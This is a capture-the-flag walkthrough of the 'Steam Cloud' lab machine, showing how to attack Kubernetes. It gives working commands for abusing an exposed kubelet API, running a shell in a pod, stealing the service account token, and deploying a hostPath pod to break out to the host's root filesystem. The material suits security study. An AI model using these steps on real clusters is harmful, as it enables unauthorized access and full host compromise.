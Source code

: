 ```yaml
---
title: Steam Cloud
date: 2025-08-09
tags: [easy, linux]
---
```


### Task 1

Which containerization framework are the services on TCP ports 2379 and 2380 components of?

Targeting those two specific ports with ``nmap -p 2379,2380 <target_ip>`` we see that the services running are the ``etcd-client`` and ``etcd-server`` accordingly. The etcd service is a key-value store used as Kubernetes' backing store for all cluster data.

![alt text](image-s-1.png)

### Task 2

How many pods are running on the target system?

One of Kubernetes components is the Kubelet API that is used by the control plane which manages nodes, the worker machines where pods run. Thus, we can use the Kubelet API to list all pods running on nodes. Kubelet API runs on port 10250 that we can validate its state by ``nmap -p 10250 -sS <target_ip>``.

![alt text](image-s-2.png)

To find out the number of pods we can then run ``curl -k -X GET https://<target_ip>:10250/pods`` this will return a json response which we can then store in a json file and sort it to have a better overview of the information. Searching this file with for "hostIP" will return the matches for the IP's of the host of pods which essentially is the number of pods.

### Task 3 

Which pod in the default namespace allows code execution? Choose from "etcd-steamcloud", "nginx", "kube-controller-manager-steamcloud", and "storage-provisioner".

We can eliminate the pod by searching on the json file stored previously for "namespace: "default"" for the 4 potential pods. The one that matches both conditions is the pod we are looking for.

### Task 4

In which directory is the service account access token and certificate stored inside a Kubernetes pod?

Looking under the volumeMounts field, we see the directory ``/var/run/secrets/kubernetes.io/serviceaccount/`` mounted with the name ``kube-api-access-zwtvf``. Searching for this name under volumes reveals a projected volume that contains two sources: a serviceAccountToken stored in token, and a configMap providing the CA certificate stored in ca.crt. These files are the pod’s service account token and certificate, used to authenticate and interact with the Kubernetes API server.
                        
### Task 5

When creating a Kubernetes Pod, which Volume type can be used to mount a file or directory from the host's filesystem onto the Pod? Choose from "gcePersistentDisk", "hostPath", "secret", or "emptyDir"

From the same json file, in the pod’s volumeMounts, ``/root`` is mounted from a volume named ``flag``. Looking up ``flag`` under volumes shows it is defined with ``"hostPath": { "path": "/opt/flag" }``, meaning the volume type is hostPath, which mounts files/directories from the host filesystem into the Pod.

### Task 6 

Submit the flag located in the user user's home directory.

We can use the tool [kubeletctl](https://github.com/cyberark/kubeletctl) to execute into the vulnerable pod by ``./kubeletctl_<binary_for_os>   --server <target_ip>   --port 10250   exec -p nginx -n default -c nginx -- sh -lc`` that runs a shell inside the nginx container and in the nginx pod. In case you built from source, you need to be under the build directory and choose the correct binary file depending on your operating system. We can then navigate to the ``/root`` directory and get the user's flag.

### Task 7

Submit the flag located in root's home directory.

In order to answer this question, we need to escape from the containirised environment to the target machine. In the pod we are in and navigating to the directory ``/var/run/secrets/kubernetes.io/serviceaccount/`` we can obtain both the token and the certificate. These credentials can be used to communicate directly with the Kubernetes API server. With the correct permissions, we can create a pod that mounts the host’s root filesystem (/) inside the container.

First, create the pod manifest such as:

```
cat > pod-hostfs.json <<'JSON'
{
  "apiVersion": "v1",
  "kind": "Pod",
  "metadata": { "name": "bb2-escape" },
  "spec": {
    "containers": [
      {
        "name": "bb",
        "image": "nginx:1.14.2",
        "imagePullPolicy": "Never",
        "command": ["sh","-lc","sleep 3600000"],
        "volumeMounts": [
          { "name": "host", "mountPath": "/node-host" }
        ]
      }
    ],
    "volumes": [
      { "name": "host", "hostPath": { "path": "/", "type": "Directory" } }
    ]
  }
}
JSON
```

This pod mounts the host's ``/`` directory at ``/node-host`` inside the container. Then, after storing the ``TOKEN`` and ``APISRV`` as environmental variables and the certificate in a file called "ca.crt", deploy the pod using the API server:


```
curl --cacert ca.crt -H "Authorization: Bearer $TOKEN" \
     -H "Content-Type: application/json" \
     -X POST "$APISRV/api/v1/namespaces/default/pods" \
     -d @pod-hostfs.json
```

After executing into the pod using the following command:

```
./kubeletctl_<binary_for_os> \
  --server <target_ip> --port 10250 \
  exec -p bb2-escape -n default -c bb -- sh -lc 'id && mount | head && ls -la /node-host'
```

the ``/node-host`` will be the host's root filesystem. Thus, to get the root flag, navigate to the ``node-host/root`` directory and grab it by running ``cat root.txt``.